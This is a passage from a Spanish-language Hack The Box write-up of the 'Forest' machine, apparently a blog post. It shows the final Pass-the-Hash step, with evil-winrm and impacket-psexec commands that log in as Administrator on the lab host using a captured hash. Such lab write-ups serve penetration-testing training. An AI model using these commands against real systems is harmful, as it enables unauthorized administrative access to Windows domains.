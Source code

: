 Finalmente, podemos realizar un ataque de tipo `Pass the Hash`, que consiste en usar el _hash_ que acabamos de conseguir en lugar de la contraseña (que no conocemos) para autenticarnos. Para esto, podríamos utilizar `psexec` (otro script de `Impacket`), o bien, mediante el mismo `Evil-WinRM`:

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H 'HASH'
```

![31](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/31.png){:class="blog-image" onclick="expandImage(this)"}

```bash
impacket-psexec administrator@10.10.10.161 -hash HASH
```

![32](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/32.png){:class="blog-image" onclick="expandImage(this)"}
